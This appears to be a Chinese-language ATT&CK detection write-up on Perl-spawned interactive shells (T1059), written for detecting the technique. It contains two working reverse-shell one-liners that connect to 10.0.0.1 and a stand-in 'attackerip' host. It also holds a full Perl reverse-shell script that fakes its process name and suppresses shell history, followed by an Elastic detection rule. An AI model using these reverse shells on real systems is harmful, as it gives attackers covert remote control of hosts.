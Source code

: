 # T1059-Linux-通过Perl生成的交互式shell

## 来自ATT&CK的描述

攻击者可能滥用命令和脚本解释器来执行命令、脚本或二进制文件。这些接口和语言提供了与计算机系统交互的方式，并且是许多不同平台的共同特征。大多数系统都带有一些内置的命令行界面和脚本功能，例如:macOS和Linux发行版包括一些Unix Shell，而Windows安装包括Windows Command Shell和PowerShell。

还有跨平台解释器，例如Python ，以及通常与客户端应用程序相关的解释器，例如JavaScript和Visual Basic。 

攻击者可能会滥用Unix shell来执行各种命令或有效载荷。可以通过命令和控制通道或在横向移动期间（例如使用SSH）访问交互式外壳。攻击者还可以利用Shell脚本在受害者上传递或执行多个命令，或者作为用于持久性的有效载荷的一部分。

## 测试案例

通过Perl生成终端(tty)。攻击者可以将简单的反向shell升级为完全获得对主机的初始访问权限后的交互式tty。

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#用这条命令，唯一的不同是提示符变成了sh-4.1#，实现原理和前面的bash差不多
```

依赖于/bin/sh的shell：这条语句比上面的更为简短，而且确实不需要依赖/bin/sh

```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

完整版的perl反弹shell脚本

```perl
#!/usr/bin/perl -w
# perl-reverse-shell - A Reverse Shell implementation in PERL
use strict;
use Socket;
use FileHandle;
use POSIX;
my $VERSION = "1.0";

# Where to send the reverse shell.  Change these.
my $ip = '127.0.0.1';
my $port = 1234;

# Options
my $daemon = 1;
my $auth   = 0; # 0 means authentication is disabled and any
        # source IP can access the reverse shell
my $authorised_client_pattern = qr(^127\.0\.0\.1$);

# Declarations
my $global_page = "";
my $fake_process_name = "/usr/sbin/apache";

# Change the process name to be less conspicious
$0 = "[httpd]";

# Authenticate based on source IP address if required
if (defined($ENV{'REMOTE_ADDR'})) {
    cgiprint("Browser IP address appears to be: $ENV{'REMOTE_ADDR'}");

    if ($auth) {
        unless ($ENV{'REMOTE_ADDR'} =~ $authorised_client_pattern) {
            cgiprint("ERROR: Your client isn't authorised to view this page");
            cgiexit();
        }
    }
} elsif ($auth) {
    cgiprint("ERROR: Authentication is enabled, but I couldn't determine your IP address.  Denying access");
    cgiexit(0);
}

# Background and dissociate from parent process if required
if ($daemon) {
    my $pid = fork();
    if ($pid) {
        cgiexit(0); # parent exits
    }

    setsid();
    chdir('/');
    umask(0);
}

# Make TCP connection for reverse shell
socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
if (connect(SOCK, sockaddr_in($port,inet_aton($ip)))) {
    cgiprint("Sent reverse shell to $ip:$port");
    cgiprintpage();
} else {
    cgiprint("Couldn't open reverse shell to $ip:$port: $!");
    cgiexit();
}

# Redirect STDIN, STDOUT and STDERR to the TCP connection
open(STDIN, ">&SOCK");
open(STDOUT,">&SOCK");
open(STDERR,">&SOCK");
$ENV{'HISTFILE'} = '/dev/null';
system("w;uname -a;id;pwd");
exec({"/bin/sh"} ($fake_process_name, "-i"));

# Wrapper around print
sub cgiprint {
    my $line = shift;
    $line .= "<p>\n";
    $global_page .= $line;
}

# Wrapper around exit
sub cgiexit {
    cgiprintpage();
    exit 0; # 0 to ensure we don't give a 500 response.
}

# Form HTTP response using all the messages gathered by cgiprint so far
sub cgiprintpage {
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

## 检测日志

无

## 测试复现

无

## 测试留痕

无

## 检测规则/思路

### elastic

```yml
query = '''
event.category:process and event.type:(start or process_started) and process.name:perl and
  process.args:("exec \"/bin/sh\";" or "exec \"/bin/dash\";" or "exec \"/bin/bash\";")
'''
```

### 建议

对数据源要求较高，需要正确配置相关策略记录相关命令参数，才能够使用该规则。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059>

Linux下反弹shell的种种方式

<https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html>

Interactive Terminal Spawned via Perl

<https://github.com/elastic/detection-rules/blob/main/rules/linux/execution_perl_tty_shell.toml>